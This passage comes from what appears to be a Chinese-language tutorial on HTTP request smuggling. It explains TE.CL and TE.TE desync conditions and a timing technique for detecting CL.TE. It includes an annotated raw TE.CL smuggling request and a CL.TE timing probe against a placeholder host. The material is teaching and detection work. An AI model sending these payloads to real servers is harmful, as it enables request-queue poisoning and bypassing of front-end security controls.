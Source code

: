 ![image-20250409175427393](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250409175427393.png)

第二个数据包拼接了上一个请求残留的 "G" 导致失效：

![image-20250409175535735](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250409175535735.png)

##### TE.CL 漏洞

当前端服务器使用 Transfer-Encoding: chunked  解析数据包长度，而后端使用分块 Content-Length 获取数据包的数据时，后端服务器处理的数据包被 Content-Length 限制截断，导致超出这个长度的的数据包数据残留在缓冲区中，等待下一个数据包到来时，残留的数据拼接在这个数据包的首部。

发送的第一个数据包：

![image-20250409190426575](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250409190426575.png)

第二个数据包：

![image-20250409190503433](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250409190503433.png)

数据包解释：

```
Content-Length: 4\r\n									# 后端服务认定请求体长度为 4
Transfer-Encoding: chunked\r\n
\r\n
5c\r\n													# 第一个块的长度：5c，这一行总共长度 4，也就是说超过这一行的，将全都留在下一个数据包中
GPOST / HTTP/1.1\r\n									# 从这里开始就是攻击者恶意构造的数据包
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
```

##### TE.TE 漏洞

通过重复添加 Transfer-Encoding，混淆后端服务器导致转化为 TE.CL 漏洞。

![image-20250409192127390](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250409192127390.png)

### 漏洞探测

##### 使用计时技术探测 CL.TE 漏洞

如果目标受到 CL.TE 漏洞的攻击，发送如下数据包会产生延迟，后端因未收到结束标记（`0\r\n\r\n`）而持续等待，导致响应延迟：

```
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 4      # 前端按 CL=4 处理
Transfer-Encoding: chunked  # 后端按 TE 处理

1\r\n
A\r\n
X
```
